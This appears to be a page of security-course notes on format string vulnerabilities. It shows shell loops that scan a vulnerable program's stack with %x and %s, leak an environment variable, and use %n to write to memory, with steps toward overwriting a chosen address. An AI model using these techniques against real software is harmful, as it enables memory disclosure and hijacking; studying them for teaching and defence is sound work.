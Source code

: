 This is done to jump into long series of bytes, automize the scanner through shell scripting
```bash
$ ./vuln "%x %x %x"        # suppose that I want to print the 3rd
b7ff0590 804849b b7fd5ff4  
$ ./vuln "%3\$x"           # N$x is the direct parameter access
b7fd5ff4                   # (the \ is to escape the $ symbol)


$ for i in `seq 1 150`; do echo -n "$i " && ./vuln "AAAA %$i\$x"; done
1 AAAA b7ff0590
2 AAAA 804849b
# ........lots of lines......   # 1 dword from the stack per line
150 AAAA 53555f6e               
$ for i in `seq 1 150`; do echo -n "$i " \
&& ./vuln "AAAB%$i\$x"; echo ""; done | grep 4141
114 AAAB42414141               # there is my cell I can read from!
                               # We had to go 114 positions up.
$ ./vuln "AAAB%114\$x"
AAAB42414141                   # So, we can effectively read.
 
```

What shouldn't happens is that printf write in memory. .
Scan the stack → Information leakage vulnerability
We can use the same technique to search for interesting data in memory
Information leakage vulnerability
```bash
$ for i in `seq 1 150`; do echo -n "$i " \
&& ./vuln "AAAA %$i\$s"; echo ""; done | grep HOME
64 AAAA HOME=/root
$ ./vuln "AAAA %64\$x"
AAAA 8048490            # here is its address
```

**A useful placeholder: %n**
%n = write, in the address pointed to by the argument, the number of chars (bytes) printed so far
E.g. 
int i = 0;
printf("hello%n",&i);
At this point, i == 5
Oops now printf writes on stack. 
**Writing to the Stack with %n**
%n = write, in the address pointed to by the argument, (treated as a pointer to int)
the number of chars printed so far.
```bash
$ ./vuln3 "AAAA %x %x %x"
buffer: AAAA b7ff0ae0 41414141 804849b
./vuln3 "AAAA %x %n %x"
Segmentation fault # bingo! Something unexpected happened... 
```
%n loads an int* (address) from the stack, goes there and writes the number of chars printed so far. In this case, that address is 0x41414141. Now I can crash the problem or I can use the fact that %n writes on stack and I can control %n as it is part of the format.
### **How can we use this?**
1. Put, on the stack, the address (addr) of the memory cell (target) to modify
2. Use %x to go find it on the stack (%N$x).
3. Use %n instead of that %x to write a number in the cell pointed to by addr, i.e. target.
Q: how can we practically write an address,
e.g. 0xbffff6cc instead of the useless 0x41414141? We cannot type those characters as easily as AAAA...
#### Using Python as a tool
We use Python to emit non printable chars, e.g. the four chars composing 0xbffff6cc
```bash
./vuln3 "AAAA%2$n"
./vuln3 "`python -c 'print "AAAA%2$n"'`"
```